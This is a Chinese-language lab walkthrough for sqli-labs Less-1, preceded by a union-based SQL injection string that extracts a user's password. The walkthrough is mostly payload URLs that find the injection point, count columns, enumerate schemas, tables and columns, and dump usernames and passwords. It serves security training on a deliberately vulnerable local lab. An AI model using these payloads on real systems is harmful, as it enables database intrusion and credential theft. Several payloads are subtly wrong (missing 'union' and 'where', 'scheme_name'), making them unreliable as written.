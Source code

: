 ```
SELECT * FROM user_data WHERE last_name = '' or true union select 1,'2','3','4','5',password, 7 from user_system_data where user_name='dave'-- -'
```



# sqli-lab

## 0x01

首先判断是否有注入点

```
http://192.168.64.2/sqli/Less-1/?id=1
http://192.168.64.2/sqli/Less-1/?id=1'
```

报错，说明存在注入点。

查看有几行

```
http://192.168.64.2/sqli/Less-1/?id=1' order by 3 --+ 
#3以下不出错，4以上出错。说明返回结果为3行
```

判断显示的是那几行

```
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,3 --+
```

显示2,3，说明显示的是第2、3参数

查看数据库类型及版本

```
http://192.168.64.2/sqli/Less-1/?id=1' select 1,database(),version() --+
```

查看数据库中数据库名，表名和列名

```
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,(select group_concat(scheme_name) from information_schema.schemata) --+
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security') --+
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,(select group_concat(column_name) from information_schema.columns table_name='users') --+
```

最后能显示出列名

暴库

```
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,(select group_concat(username) from security.users)
http://192.168.64.2/sqli/Less-1/?id=1' select 1,2,(select group_concat(password) from security.users)
```
